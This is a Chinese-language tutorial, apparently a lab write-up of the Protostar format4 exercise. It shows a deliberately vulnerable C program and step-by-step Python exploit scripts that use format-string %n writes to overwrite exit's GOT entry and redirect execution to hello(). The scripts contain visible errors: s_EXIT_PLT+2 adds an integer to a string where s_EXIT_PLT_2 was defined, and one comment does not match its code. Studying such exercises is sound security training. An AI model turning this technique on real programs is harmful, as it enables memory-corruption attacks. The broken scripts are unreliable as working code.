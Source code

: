 # 0x13 Format String Exploit and overwrite the Global Offset Table
> 格式化字符串漏洞+GOT表覆盖
- 漏洞代码
  ```c
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>
    int target;
    void hello()
    {
        printf("code execution redirected! you win\n");
    }
    void vuln()
    {
        char buffer[512];
        fgets(buffer, sizeof(buffer), stdin);
        // printf 第一个参数为用户输入，是一个格式化参数
        printf(buffer);
        // exit(1)，表示程序不会返回，而是直接执行 syscall 退出程序及进程
        exit(1);
    }
    int main(int argc, char **argv)
    {
        vuln();
    }

  ```
- 最后执行的效果：覆盖 GOT 表中的 exit 函数，转而执行 hello 函数
## 利用步骤
- 首先，初步运行并验证是否包含格式化字符串漏洞
  ![](img/13-初步验证包含格式化字符串漏洞.PNG)
- 获取相关地址信息
  ![](img/13-获取相关地址信息.PNG)
- 上图中 `0x08049724` 中的值需要覆盖为 hello 函数的地址 `0x80484b4`
- 首先计算 printf 传入参数在栈中的偏移，计算得偏移为 **4**（**`%x` 用于查看栈中内容**）
  ![](img/13-计算偏移.PNG)
- 计算需如何构造达到覆盖`0x08049724` 中的值为 hello 函数的地址 `0x80484b4`
  - 计算 `0x80484b4` 十进制大小
    ![](img/13-计算大小_1.PNG)
    若完全将 134513844 个字符写入文件中作为程序的输入，一字符为一字节，文件会相当大，因此，借助`%x`完成输入。
    ```bash
    int a = 16
    # 转换为16进制输出
    %2x = 10
    %3x = 010
    %4x = 0010
    ...
    ```
  - 直接使用 `%134513844x` 输出过多，因此使用将 `0x80484b4` 分为高位和低位两次写入
- 写入 `0x84b4` 于`0x08049724`地址中值的低位
  ![](img/13-第4为计算偏移.PNG)

  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += "%4$33968x"
  # %4$n 前打印的字符数量为 33968+4 = 33972 符合需要覆盖的值
  # %4$n 表示将之前打印的字符数写入栈中偏移为4的位置
  exploit += "%4$n"
  print pad(exploit)
  ```
  ![](img/13-res_1.PNG)
  ![](img/13-res_2.PNG)
- 写入 `0x804` 于`0x08049724`地址中值的高位
  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += s_EXIT_PLT+2
  exploit += "%4$33964x"
  # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
  # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
  exploit += "%4$n"
  exploit += "%5$n"
  print pad(exploit)
  ```
  ![](img/13-res_3.PNG)
  - 由于之前打印的字符已有 `0x84b4` 个，而高位需要的字符仅有 `0x804` 个，因此选择上溢为 `0x10804` 以满足要求
    ![](img/13-计算大小_2.PNG)
    ```python
    import struct
    HELLO = 0x80484b4
    EXIT_PLT = 0x8049724
    # 待覆盖的地址
    s_EXIT_PLT = struct.pack("I",EXIT_PLT)
    s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
    # len(s_EXIT_PLT) = 4
    def pad(s):
            return s+'X'*(512-len(s))
    exploit = ""
    exploit += s_EXIT_PLT
    exploit += s_EXIT_PLT+2
    exploit += "%4$33964x"
    # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
    # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
    exploit += "%4$n"
    exploit += "%5$33616x"
    exploit += "%5$n"
    print pad(exploit)
    ```
    ![](img/13-res_4.PNG)
- 直接运行：`python format4_exp.py | ./format4`
  ![](img/13-res_5.PNG)
## 参考链接
- [exploit-exercises-protostar-stack-0](https://medium.com/@coturnix97/exploit-exercises-protostar-stack-0-269d77e62e9d)
- [liveoverflow_binary-hacking](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)

